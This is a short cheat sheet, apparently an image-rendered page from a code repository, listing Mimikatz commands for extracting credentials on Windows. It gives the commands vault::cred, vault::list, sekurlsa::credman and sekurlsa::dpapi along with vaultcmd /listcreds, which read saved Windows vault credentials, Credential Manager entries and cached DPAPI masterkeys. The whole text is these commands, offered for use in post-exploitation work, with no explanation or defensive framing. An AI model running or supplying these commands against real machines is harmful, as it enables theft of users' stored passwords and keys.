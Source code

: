 # Mimikatz

## 01 - View Credentials

```
mimikatz # vault::cred
```

## 02 - List Vault

```
C:\> vaultcmd /listcreds:"Windows Credentials" /all

mimikatz # vault::list
```

## 03 - List Credentials Manager

```
mimikatz # sekurlsa::credman
```

## 04 - List Cached Masterkeys

```
mimikatz # sekurlsa::dpapi
```